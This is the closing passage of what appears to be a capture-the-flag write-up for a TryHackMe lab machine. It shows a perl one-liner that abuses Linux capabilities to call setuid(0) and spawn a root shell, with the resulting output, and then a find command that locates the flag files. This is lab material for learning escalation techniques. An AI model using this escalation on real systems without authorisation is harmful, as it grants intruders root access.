 There it is, we can binary "perl" with linux capabilities.

Let do a quick research how to get root from there.

```bash
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# bash
root@wonderland:~# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
root@wonderland:~#
root@wonderland:~# find / -type f \( -name "user.txt" -o -name "root.txt" \) 2>/dev/null
/home/alice/root.txt
/root/user.txt
```

Well, you have the user.txt and root.txt !!!

Tips: the user.txt can be view by alice from start, if you use ` cat /root/user.txt ` !!!

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB




